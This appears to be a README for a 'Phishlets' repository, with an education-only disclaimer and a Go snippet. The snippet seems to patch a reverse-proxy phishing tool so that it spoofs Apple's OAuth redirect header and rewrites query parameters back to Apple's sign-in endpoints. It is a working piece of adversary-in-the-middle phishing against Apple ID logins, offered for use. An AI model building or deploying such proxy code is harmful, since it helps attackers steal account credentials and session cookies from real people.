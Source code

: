 # Phishlets
This is only for Education Purpose not use for harming to anyone.

				//Replace User Agent Header
				useragent := req.Header.Get("X-Apple-Oauth-Redirect-Uri")
				if useragent != "" {
					req.Header.Set("X-Apple-Oauth-Redirect-Uri", "https://www.icloud.com")
					log.Debug("[%d] X-Apple-Oauth-Redirect-Uri: https://www.icloud.com", ps.Index)

				} 	
        
        
        
        
				// patch GET query params with original domains
				if pl != nil {
					qs := req.URL.Query()
					if len(qs) > 0 {
						for gp := range qs {
							for i, v := range qs[gp] {
								qs[gp][i] = string(p.patchUrls(pl, []byte(v), CONVERT_TO_ORIGINAL_URLS))
							if qs[gp][i] == "/appleauthhttps://idmsa.test.com/auth" { // https://idmsa.apple.com/appleauthhttps://idmsa.test.com/auth
								qs[gp][i] = "/appleauth/auth" // https://idmsa.test.com/appleauth/auth
							}
							}
						}
						req.URL.RawQuery = qs.Encode()
					}
				} 	        

